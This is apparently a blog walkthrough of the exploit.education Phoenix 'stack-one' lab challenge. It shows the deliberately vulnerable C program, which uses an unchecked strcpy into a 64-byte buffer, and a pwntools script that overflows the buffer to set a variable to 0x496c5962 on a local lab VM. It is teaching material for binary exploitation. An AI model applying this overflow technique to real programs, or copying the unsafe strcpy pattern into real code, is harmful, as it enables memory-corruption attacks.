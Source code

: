 ## Stack-one

![](https://blog.cyb3rguru.tech/posts/phoenix/files/st1_header.png)


### Source Code
---

```
/*
 * phoenix/stack-one, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x496c5962
 *
 * Did you hear about the kid napping at the local school?
 * It's okay, they woke up.
 *
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  if (argc < 2) {
    errx(1, "specify an argument, to be copied into the \"buffer\"");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, argv[1]);

  if (locals.changeme == 0x496c5962) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n",
        locals.changeme);
  }

  exit(0);
}

```

Let's digging the code:
---

- The main() function is the entry point of the program.

- Inside the main() function, there is a definition of a structure named locals. It contains two members: buffer, an array of characters with a size of 64, and changeme, a volatile integer.

- The printf() function is used to print the program's welcome message.

- The program checks if the number of command-line arguments (argc) is less than 2. If true, it calls errx() to display an error message and terminate the program.

- The changeme variable is initialized to 0.

- The strcpy() function copies the content of argv[1] (the second command-line argument) into locals.buffer. This is potentially unsafe since strcpy() does not perform bounds checking.

- After the strcpy() call, the program checks if changeme is equal to 0x496c5962. If true, it outputs a success message.

- If changeme is not equal to 0x496c5962, it displays a message showing the current value of changeme and the expected value.

- Finally, the program exits with a status code of 0.

This challenge is similar to Stack one, but the main goal here is to not only change the variable of the `changeme` to the overflow value but to a specific value that is `0x496c5962`, so we use the pwntools module to write a script that could accomplish that

```

#!/usr/bin/python
## script by Hamza Saidu 
## Cyberguru
## enjoy!!!

from pwn import *


s = ssh(host='localhost', user='user', password='user', port=2222)

# crafting payload
payload = b"A" * 64

# adding the comparision variable
payload += p32(0x496c5962)

p = s.run(f'/opt/phoenix/amd64/stack-one {payload.decode()}')

# p.sendline(payload)

print(p.recvall().decode())

```

Explanation of the code:
---

```
from pwn import *
```
- The pwn library is imported, which provides functions for binary exploitation and interaction with remote services.

```
s = ssh(host='localhost', user='user', password='user', port=2222)
```
- An SSH connection is established to a server running on localhost with the username "user," password "user," and port 2222.

```
# crafting payload
payload = b"A" * 64
```
- The payload is crafted as a byte string consisting of 64 'A' characters.

```
# adding the comparision variable
payload += p32(0x496c5962)
```
- The comparison variable (0x496c5962) is appended to the payload using p32() to pack it into a little-endian 32-bit format.

```
p = s.run(f'/opt/phoenix/amd64/stack-one {payload.decode()}')
```
- The script runs the command /opt/phoenix/amd64/stack-one on the remote server, passing the crafted payload as a command-line argument. The decode() function is used to convert the payload from bytes to a string.

```
print(p.recvall().decode())
```
- The script receives and prints the output of the command executed on the remote server.

And finally running the script we have:

![](https://blog.cyb3rguru.tech/posts/phoenix/files/st1_result.png)

